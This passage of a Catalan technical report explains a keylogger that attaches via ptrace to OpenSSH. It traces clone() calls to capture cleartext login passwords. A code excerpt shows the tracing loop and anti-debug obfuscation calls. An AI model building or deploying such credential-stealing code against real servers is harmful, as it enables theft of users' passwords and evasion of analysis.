 En aquest anàlisis, ens varem donar compte que les dades en clar utilitzades durant l'autenticació, eren
transferides utilitzant un format en concret que és el què aquesta funció comprova. El format en qüestió
és TAG + LONGITUD + DADES, on les dades és un string. Tenint en compte que un password serà normalment més
curt que 255 caràcters, i que la longitud està expressada en 4 bytes, aquesta funció comprova que el format
es compleix. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
ptrace(PTRACE_SYSCALL, pid, @PYaX[NULL], @PYaX[NULL]);
exitPid @PYbe[=] wait(@PYbe[&]status);

antidebug_obfuscate_analysis(@PYag[3]);
@PYay[if] (WIFSTOPPED(status)) {
    @PYay[if] (WSTOPSIG(status) @PYbe[=]@PYbe[=] SIGCHLD) {
        ptrace(PTRACE_CONT, pid, @PYag[0], SIGCHLD);
        kill(pid, SIGSTOP);
    } @PYay[else] 
        @PYay[if] (WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGTRAP @PYbe[&]@PYbe[&]  WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGSTOP) {
        ptrace(PTRACE_CONT, pid, @PYag[0], WSTOPSIG(status));
        debug(@PYaB["]@PYaB[Acabant procés pare %d (%d)]@PYao[\n]@PYaB["], pid, WSTOPSIG(status));
        @PYay[break];
    }
    @PYay[else] {
        orig_eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] ORIG_EAX, @PYaX[NULL]);

        antidebug_obfuscate_analysis(@PYag[4]);
        @PYay[switch] (orig_eax) {
            @PYay[case] __NR_clone:
                @PYay[if](insyscall @PYbe[=]@PYbe[=] @PYag[0]) {
                    debug(@PYaB["]@PYaB[fork]@PYao[\n]@PYaB["]);
                    insyscall @PYbe[=] @PYag[1];
                } @PYay[else] {
                    insyscall @PYbe[=] @PYag[0];
                    eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] EAX, @PYaX[NULL]);
                    @PYay[if](@PYbe[!]fork()) {
                        lookForReads(eax);
                    }
\end{Verbatim}
    \caption{keylogger.c::main()}
    \label{fig:keylogger_main}
\end{figure}

En la figura \ref{fig:keylogger_main} podem veure com un cop ja estem attachats al procés principal del 
Openssh, anem seguin les diferents crides a sistema per trobar en aquest cas un clone(). En el moment
en que es retorni la crida clone(), capturem el valor del registre eax que correspon al pid del procés
fill o 0 en cas de ser el propi fill. Quan en el pare obtenim el pid del fill acabat de crear, saltem a la 
funció lookForReads() tot passant-li el nou pid a seguir. En aquest funció, es crearà un nou procés del 
nostre keylogger, que segurà exclusivament aquest nou procés que acaba de crear l'Openssh. En aquesta nova
connexió, ja serà on buscarem les dades que ens interessen. \\

